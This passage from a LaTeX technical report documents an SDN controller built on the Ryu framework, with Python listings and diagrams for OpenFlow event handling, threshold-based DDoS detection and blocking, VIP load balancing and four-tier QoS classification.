            for h in range(k // 2):
                host_num = pod * (k**2 // 4) + edge * (k//2) + h + 1
                host = net.addHost(f'h{host_num}',
                    ip=f'10.0.{pod+1}.{edge*(k//2)+h+1}/24')
                net.addLink(host, edge_sw, bw=100)

    return net
\end{lstlisting}

\newpage

% =============================================================================
% SECTION 4: SDN CONTROLLER
% =============================================================================
\section{SDN Controller Implementation}

\subsection{Controller Architecture}

The SecureNet Controller is built on the Ryu SDN framework and implements a modular architecture:

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    module/.style={rectangle, draw=#1, fill=#1!20, rounded corners,
                   minimum width=2.5cm, minimum height=1cm, text centered, font=\small\bfseries},
    core/.style={rectangle, draw=primaryblue, fill=primaryblue!30, rounded corners,
                 minimum width=8cm, minimum height=1.2cm, text centered, font=\bfseries},
    arrow/.style={->, thick, >=stealth}
]

% Core controller
\node[core] (ctrl) at (0,0) {SecureNet Controller (Ryu)};

% Modules on top row
\node[module=dangerred] (ddos) at (-4, 2.5) {DDoS\\Detector};
\node[module=successgreen] (qos) at (-1.3, 2.5) {QoS\\Manager};
\node[module=warningyellow] (lb) at (1.3, 2.5) {Load\\Balancer};
\node[module=purpleaccent] (fw) at (4, 2.5) {Firewall};

% Stats below
\node[module=codegray] (stats) at (-2.5, -2.5) {Statistics Collector};

% REST API below right
\node[module=primaryblue] (rest) at (2.5, -2.5) {REST API};

% Connections
\draw[arrow] (ctrl) -- (ddos);
\draw[arrow] (ctrl) -- (qos);
\draw[arrow] (ctrl) -- (lb);
\draw[arrow] (ctrl) -- (fw);
\draw[arrow] (ctrl) -- (stats);
\draw[arrow] (ctrl) -- (rest);

% OpenFlow label
\node[above=0.3cm of ctrl, font=\footnotesize\itshape] {OpenFlow 1.3 (Port 6653)};

\end{tikzpicture}
\caption{Controller Module Architecture}
\end{figure}

\subsection{Packet Processing Pipeline}

When a packet arrives at a switch without a matching flow rule, it is sent to the controller. The controller processes it through a 7-stage pipeline:

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    stage/.style={rectangle, draw=primaryblue, fill=primaryblue!10, rounded corners,
                  minimum width=1.6cm, minimum height=0.7cm, text centered, font=\scriptsize},
    arrow/.style={->, thick, >=stealth}
]

\node[stage] (s1) at (0,0) {1. Receive};
\node[stage] (s2) at (2.2,0) {2. Parse};
\node[stage] (s3) at (4.4,0) {3. Firewall};
\node[stage] (s4) at (6.6,0) {4. DDoS};
\node[stage] (s5) at (8.8,0) {5. Load Bal};
\node[stage] (s6) at (11,0) {6. QoS};
\node[stage] (s7) at (13.2,0) {7. Forward};

\draw[arrow] (s1) -- (s2);
\draw[arrow] (s2) -- (s3);
\draw[arrow] (s3) -- (s4);
\draw[arrow] (s4) -- (s5);
\draw[arrow] (s5) -- (s6);
\draw[arrow] (s6) -- (s7);

\end{tikzpicture}
\caption{7-Stage Packet Processing Pipeline}
\end{figure}

\subsection{OpenFlow Message Handling}

\begin{lstlisting}[language=Python, caption=Main Controller Event Handlers]
class SecureNetController(app_manager.RyuApp):
    OFP_VERSIONS = [ofproto_v1_3.OFP_VERSION]

    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.mac_to_port = {}

        # Initialize modules
        self.ddos_detector = DDoSDetector()
        self.qos_manager = QoSManager()
        self.load_balancer = LoadBalancer()
        self.firewall = Firewall()
        self.stats_collector = StatsCollector()

    @set_ev_cls(ofp_event.EventOFPSwitchFeatures, CONFIG_DISPATCHER)
    def switch_features_handler(self, ev):
        """Handle new switch connection."""
        datapath = ev.msg.datapath
        ofproto = datapath.ofproto
        parser = datapath.ofproto_parser

        # Install table-miss flow entry
        match = parser.OFPMatch()
        actions = [parser.OFPActionOutput(
            ofproto.OFPP_CONTROLLER,
            ofproto.OFPCML_NO_BUFFER)]
        self.add_flow(datapath, 0, match, actions)

    @set_ev_cls(ofp_event.EventOFPPacketIn, MAIN_DISPATCHER)
    def packet_in_handler(self, ev):
        """Handle packet-in events."""
        msg = ev.msg
        datapath = msg.datapath
        in_port = msg.match['in_port']

        pkt = packet.Packet(msg.data)
        eth = pkt.get_protocol(ethernet.ethernet)

        # Stage 1: Firewall check
        if self.firewall.is_blocked(eth.src):
            return  # Drop packet

        # Stage 2: DDoS detection
        ip_pkt = pkt.get_protocol(ipv4.ipv4)
        if ip_pkt and self.ddos_detector.check(ip_pkt.src):
            self.install_block_rule(datapath, ip_pkt.src)
            return

        # Stage 3: Load balancer
        if ip_pkt and ip_pkt.dst == VIRTUAL_IP:
            self.load_balancer.handle_request(
                datapath, pkt, in_port)
            return

        # Stage 4: QoS classification
        queue_id = self.qos_manager.classify(pkt)

        # Stage 5: L2 learning and forwarding
        self.learn_and_forward(datapath, pkt, in_port, queue_id)
\end{lstlisting}

\subsection{Flow Rule Installation}

\begin{lstlisting}[language=Python, caption=Flow Rule Installation]
def add_flow(self, datapath, priority, match, actions,
             idle_timeout=0, hard_timeout=0):
    """Install a flow rule on the switch."""
    ofproto = datapath.ofproto
    parser = datapath.ofproto_parser

    inst = [parser.OFPInstructionActions(
        ofproto.OFPIT_APPLY_ACTIONS, actions)]

    mod = parser.OFPFlowMod(
        datapath=datapath,
        priority=priority,
        match=match,
        instructions=inst,
        idle_timeout=idle_timeout,
        hard_timeout=hard_timeout
    )

    datapath.send_msg(mod)
    self.logger.info(f"Flow installed: {match} -> {actions}")
\end{lstlisting}

\newpage

% =============================================================================
% SECTION 5: DDoS DETECTION
% =============================================================================
\section{DDoS Detection and Mitigation}

\subsection{Detection Algorithm}

The DDoS detector monitors packet rates per source IP address and detects anomalies using threshold-based analysis:

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    node distance=2cm,
    process/.style={rectangle, draw=primaryblue, fill=primaryblue!20, rounded corners,
                    minimum width=2.5cm, minimum height=1cm, text centered, font=\small},
    decision/.style={diamond, draw=warningyellow, fill=warningyellow!20,
                     minimum width=2cm, aspect=2, text centered, font=\small},
    arrow/.style={->, thick, >=stealth}
]

\node[process] (receive) {Receive Packet};
\node[process, below=of receive] (extract) {Extract Source IP};
\node[process, below=of extract] (update) {Update Counter};
\node[decision, below=of update] (check) {Rate > Threshold?};
\node[process, below left=1.5cm and 1cm of check] (allow) {Allow Packet};
\node[process, below right=1.5cm and 1cm of check] (block) {Block Source};
\node[process, below=of block] (install) {Install Drop Rule};

\draw[arrow] (receive) -- (extract);
\draw[arrow] (extract) -- (update);
\draw[arrow] (update) -- (check);
\draw[arrow] (check) -- node[left] {No} (allow);
\draw[arrow] (check) -- node[right] {Yes} (block);
\draw[arrow] (block) -- (install);

\end{tikzpicture}
\caption{DDoS Detection Flow}
\end{figure}

\subsection{Attack Types and Thresholds}

\begin{table}[H]
\centering
\caption{DDoS Detection Thresholds}
\begin{tabular}{llll}
\toprule
\textbf{Attack Type} & \textbf{Detection Method} & \textbf{Threshold} & \textbf{Block Duration} \\
\midrule
SYN Flood & TCP SYN packet rate & 100 pps & 120 seconds \\
ICMP Flood & ICMP Echo request rate & 50 pps & 120 seconds \\
UDP Flood & UDP packet rate & 200 pps & 120 seconds \\
HTTP Flood & HTTP request rate & 50 rps & 120 seconds \\
Total Traffic & Combined packet rate & 500 pps & 120 seconds \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Detection Implementation}

\begin{lstlisting}[language=Python, caption=DDoS Detector Implementation]
class DDoSDetector:
    """Real-time DDoS attack detection engine."""

    # Detection thresholds (packets per second)
    THRESHOLDS = {
        'syn': 100,
        'icmp': 50,
        'udp': 200,
        'http': 50,
        'total': 500
    }

    BLOCK_DURATION = 120  # seconds
    WINDOW_SIZE = 2       # seconds

    def __init__(self):
        self.packet_counts = defaultdict(lambda: defaultdict(int))
        self.blocked_hosts = {}
        self.last_reset = time.time()
        self.alerts = []

    def check_packet(self, src_ip, packet_type):
        """Check if packet indicates attack behavior."""
        current_time = time.time()

        # Reset counters every window
        if current_time - self.last_reset > self.WINDOW_SIZE:
            self._reset_counters()

        # Skip if already blocked
        if src_ip in self.blocked_hosts:
            return True

        # Update counter
        self.packet_counts[src_ip][packet_type] += 1
        self.packet_counts[src_ip]['total'] += 1

        # Check thresholds
        for attack_type, threshold in self.THRESHOLDS.items():
            rate = self.packet_counts[src_ip][attack_type] / self.WINDOW_SIZE

            if rate > threshold:
                self._trigger_alert(src_ip, attack_type, rate)
                self._block_host(src_ip)
                return True

        return False

    def _block_host(self, ip):
        """Block malicious host."""
        self.blocked_hosts[ip] = time.time() + self.BLOCK_DURATION
        self.logger.warning(f"[DDoS] Blocked host: {ip}")

    def _trigger_alert(self, src_ip, attack_type, rate):
        """Generate security alert."""
        alert = {
            'timestamp': datetime.now().isoformat(),
            'source_ip': src_ip,
            'attack_type': attack_type,
            'packet_rate': rate,
            'action': 'blocked'
        }
        self.alerts.append(alert)
\end{lstlisting}

\subsection{Mitigation Strategy}

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    box/.style={rectangle, draw=primaryblue, fill=primaryblue!10, rounded corners,
                minimum width=4cm, minimum height=1.5cm, text centered},
    arrow/.style={->, thick, >=stealth, dangerred}
]

\node[box] (detect) at (0,0) {Detection\\(Rate Monitoring)};
\node[box] (alert) at (5,0) {Alert\\(Log \& Notify)};
\node[box] (block) at (10,0) {Block\\(Install Drop Rule)};
\node[box] (expire) at (5,-3) {Auto-Expire\\(After 120s)};

\draw[arrow] (detect) -- (alert);
\draw[arrow] (alert) -- (block);
\draw[arrow] (block) |- (expire);
\draw[arrow, successgreen] (expire) -| node[near end, left] {Unblock} (detect);

\end{tikzpicture}
\caption{DDoS Mitigation Lifecycle}
\end{figure}

\newpage

% =============================================================================
% SECTION 6: LOAD BALANCER
% =============================================================================
\section{Load Balancer Implementation}

\subsection{Virtual IP Architecture}

The load balancer uses a Virtual IP (VIP) address to distribute incoming requests across a pool of backend servers:

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    client/.style={rectangle, draw=codegray, fill=backcolour, minimum width=1.5cm, minimum height=1cm},
    vip/.style={ellipse, draw=warningyellow, fill=warningyellow!30, minimum width=2.5cm, minimum height=1.5cm},
    server/.style={rectangle, draw=successgreen, fill=successgreen!20, minimum width=1.8cm, minimum height=1cm},
    arrow/.style={->, thick, >=stealth}
]

% Clients
\node[client] (c1) at (0, 3) {Client 1};
\node[client] (c2) at (0, 1.5) {Client 2};
\node[client] (c3) at (0, 0) {Client 3};

% VIP
\node[vip] (vip) at (5, 1.5) {VIP\\10.0.0.100};

% Servers
\node[server] (s1) at (10, 4) {h1: 10.0.1.1};
\node[server] (s2) at (10, 2.5) {h2: 10.0.1.2};
\node[server] (s3) at (10, 1) {h3: 10.0.1.3};
\node[server] (s4) at (10, -0.5) {h4: 10.0.1.4};

% Request arrows
\draw[arrow, primaryblue] (c1) -- (vip);
\draw[arrow, primaryblue] (c2) -- (vip);
\draw[arrow, primaryblue] (c3) -- (vip);

% Distribution arrows
\draw[arrow, successgreen] (vip) -- (s1);
\draw[arrow, successgreen] (vip) -- (s2);
\draw[arrow, successgreen] (vip) -- (s3);
\draw[arrow, successgreen] (vip) -- (s4);

% Labels
\node[below=0.3cm of vip, font=\footnotesize] {Round-Robin Selection};

\end{tikzpicture}
\caption{VIP-Based Load Balancing}
\end{figure}

\subsection{Load Balancing Algorithms}

\begin{table}[H]
\centering
\caption{Supported Load Balancing Algorithms}
\begin{tabularx}{\textwidth}{lX}
\toprule
\textbf{Algorithm} & \textbf{Description} \\
\midrule
Round-Robin & Distributes requests sequentially to each server in order. Simple and fair distribution. \\
Weighted Round-Robin & Assigns weights to servers; higher weights receive more requests. Useful for heterogeneous server capacities. \\
Least Connections & Routes to the server with fewest active connections. Best for varying request durations. \\
IP Hash & Uses client IP to determine server. Ensures session persistence. \\
\bottomrule
\end{tabularx}
\end{table}

\subsection{NAT Translation Process}

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    box/.style={rectangle, draw=primaryblue, fill=primaryblue!10, rounded corners,
                minimum width=3cm, minimum height=2cm, text centered, font=\small},
    arrow/.style={->, thick, >=stealth}
]

% Request flow
\node[box] (req1) at (0, 2) {Request\\Dst: 10.0.0.100\\(VIP)};
\node[box] (nat1) at (5, 2) {DNAT\\Dst: 10.0.1.2\\(Server)};
\node[box] (server) at (10, 2) {Server\\Processes\\Request};

% Response flow
\node[box] (resp1) at (10, -1) {Response\\Src: 10.0.1.2\\(Server)};
\node[box] (nat2) at (5, -1) {SNAT\\Src: 10.0.0.100\\(VIP)};
\node[box] (client) at (0, -1) {Client\\Receives\\Response};

\draw[arrow, successgreen] (req1) -- node[above] {Rewrite} (nat1);
\draw[arrow, successgreen] (nat1) -- (server);
\draw[arrow, primaryblue] (server) -- (resp1);
\draw[arrow, primaryblue] (resp1) -- node[above] {Rewrite} (nat2);
\draw[arrow, primaryblue] (nat2) -- (client);

\end{tikzpicture}
\caption{NAT Translation for Load Balancing}
\end{figure}

\subsection{Implementation}

\begin{lstlisting}[language=Python, caption=Load Balancer Implementation]
class LoadBalancer:
    """VIP-based load balancer with multiple algorithms."""

    def __init__(self):
        self.virtual_ip = '10.0.0.100'
        self.virtual_mac = '00:00:00:00:00:64'
        self.servers = [
            {'ip': '10.0.1.1', 'mac': '00:00:00:00:00:01', 'weight': 1},
            {'ip': '10.0.1.2', 'mac': '00:00:00:00:00:02', 'weight': 1},
            {'ip': '10.0.1.3', 'mac': '00:00:00:00:00:03', 'weight': 1},
            {'ip': '10.0.1.4', 'mac': '00:00:00:00:00:04', 'weight': 1},
        ]
        self.current_index = 0
        self.algorithm = 'round_robin'
        self.connections = defaultdict(int)

    def select_server(self, client_ip=None):
        """Select backend server based on algorithm."""
        if self.algorithm == 'round_robin':
            server = self.servers[self.current_index]
            self.current_index = (self.current_index + 1) % len(self.servers)

        elif self.algorithm == 'least_connections':
            server = min(self.servers,
                        key=lambda s: self.connections[s['ip']])

        elif self.algorithm == 'ip_hash':
            hash_val = hash(client_ip) % len(self.servers)
            server = self.servers[hash_val]

        return server

    def handle_arp_request(self, datapath, pkt, in_port):
        """Respond to ARP requests for VIP."""
        arp_pkt = pkt.get_protocol(arp.arp)

        if arp_pkt.dst_ip == self.virtual_ip:
            # Build ARP reply
            eth_reply = ethernet.ethernet(
                dst=arp_pkt.src_mac,
                src=self.virtual_mac,
                ethertype=ether_types.ETH_TYPE_ARP
            )
            arp_reply = arp.arp(
                opcode=arp.ARP_REPLY,
                src_mac=self.virtual_mac,
                src_ip=self.virtual_ip,
                dst_mac=arp_pkt.src_mac,
                dst_ip=arp_pkt.src_ip
            )

            self._send_packet(datapath, in_port, eth_reply, arp_reply)

    def create_forward_flow(self, datapath, parser, server, client_ip):
        """Install flow for client-to-server traffic."""
        match = parser.OFPMatch(
            eth_type=0x0800,
            ipv4_src=client_ip,
            ipv4_dst=self.virtual_ip
        )

        actions = [
            parser.OFPActionSetField(eth_dst=server['mac']),
            parser.OFPActionSetField(ipv4_dst=server['ip']),
            parser.OFPActionOutput(server['port'])
        ]

        return match, actions
\end{lstlisting}

\newpage

% =============================================================================
% SECTION 7: QoS TRAFFIC ENGINEERING
% =============================================================================
\section{QoS Traffic Engineering}

\subsection{Traffic Classification}

The QoS manager classifies traffic into four priority tiers based on port numbers and protocol types:

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    scale=0.85, transform shape,
    tier/.style={rectangle, draw=#1, fill=#1!15, rounded corners,
                 minimum width=9cm, minimum height=1cm, text centered, font=\footnotesize}
]

% Tiers with queue labels inside - more vertical spacing
\node[tier=dangerred] (t0) at (0, 6) {\textbf{Q0:} Critical (50\%) - SSH, DNS, ICMP};
\node[tier=warningyellow] (t1) at (0, 4) {\textbf{Q1:} Real-time (30\%) - RTSP, RTP, Video};
\node[tier=primaryblue] (t2) at (0, 2) {\textbf{Q2:} Interactive (15\%) - HTTP, HTTPS};
\node[tier=successgreen] (t3) at (0, 0) {\textbf{Q3:} Bulk (5\%) - FTP, SMTP, Default};

% Priority arrow on right side
\draw[->, very thick, dangerred!70] (5.8, 6) -- (5.8, 0);
\node[right, font=\scriptsize, dangerred] at (5.9, 3) {Priority};

% High/Low labels
\node[font=\tiny, dangerred] at (5.8, 6.6) {HIGH};
\node[font=\tiny, successgreen] at (5.8, -0.6) {LOW};

\end{tikzpicture}
\caption{Four-Tier QoS Classification}
\end{figure}

\subsection{DSCP Marking}

\begin{table}[H]
\centering
\caption{DSCP Values for Traffic Classes}
\begin{tabular}{llll}
\toprule
\textbf{Queue} & \textbf{DSCP Value} & \textbf{PHB Class} & \textbf{Binary} \\
\midrule
0 - Critical & 46 & EF (Expedited Forwarding) & 101110 \\
1 - Real-time & 34 & AF41 (Assured Forwarding) & 100010 \\
2 - Interactive & 26 & AF31 & 011010 \\
3 - Bulk & 0 & BE (Best Effort) & 000000 \\
\bottomrule
\end{tabular}
\end{table}

\subsection{HTB Queue Configuration}

\begin{figure}[H]
\centering

\begin{tikzpicture}[
    queue/.style={rectangle, draw=primaryblue, fill=primaryblue!10, rounded corners,
                  minimum width=2.5cm, minimum height=1cm, text centered, font=\small},
    root/.style={rectangle, draw=codegray, fill=codegray!20, rounded corners,
                 minimum width=3cm, minimum height=1cm, text centered, font=\small\bfseries}
]

% Root
\node[root] (root) at (0, 3) {Root: 100 Mbps};

% Queues
\node[queue, fill=dangerred!20] (q0) at (-4.5, 0) {Critical\\50 Mbps};
\node[queue, fill=warningyellow!20] (q1) at (-1.5, 0) {Real-time\\30 Mbps};
\node[queue, fill=primaryblue!20] (q2) at (1.5, 0) {Interactive\\15 Mbps};
\node[queue, fill=successgreen!20] (q3) at (4.5, 0) {Bulk\\5 Mbps};

% Connections
\draw[thick] (root) -- (-4.5, 1.5) -- (q0);
\draw[thick] (root) -- (-1.5, 1.5) -- (q1);
\draw[thick] (root) -- (1.5, 1.5) -- (q2);
\draw[thick] (root) -- (4.5, 1.5) -- (q3);

% Ceiling labels
\node[font=\tiny, below=0.1cm of q0] {ceil: 100M};
\node[font=\tiny, below=0.1cm of q1] {ceil: 80M};
\node[font=\tiny, below=0.1cm of q2] {ceil: 50M};
\node[font=\tiny, below=0.1cm of q3] {ceil: 20M};

\end{tikzpicture}
\caption{HTB Queue Hierarchy}
\end{figure}

\subsection{Implementation}

\begin{lstlisting}[language=Python, caption=QoS Manager Implementation]
class QoSManager:
    """Traffic classification and QoS policy enforcement."""

    # Traffic class definitions
    TRAFFIC_CLASSES = {
        'critical': {
            'queue': 0,
            'dscp': 46,  # EF
            'min_rate': '50mbit',
            'max_rate': '100mbit',
            'ports': [22, 53]  # SSH, DNS
        },
        'realtime': {
            'queue': 1,
            'dscp': 34,  # AF41
            'min_rate': '30mbit',
            'max_rate': '80mbit',
            'ports': [554, 5004, 5001]  # RTSP, RTP, Video
        },
        'interactive': {
            'queue': 2,
            'dscp': 26,  # AF31
            'min_rate': '15mbit',
            'max_rate': '50mbit',
            'ports': [80, 443]  # HTTP, HTTPS
        },
        'bulk': {
            'queue': 3,
            'dscp': 0,   # BE
            'min_rate': '5mbit',
            'max_rate': '20mbit',
            'ports': [21, 25, 110]  # FTP, SMTP, POP3
        }
    }

    def classify_packet(self, pkt):
        """Classify packet and return queue ID."""
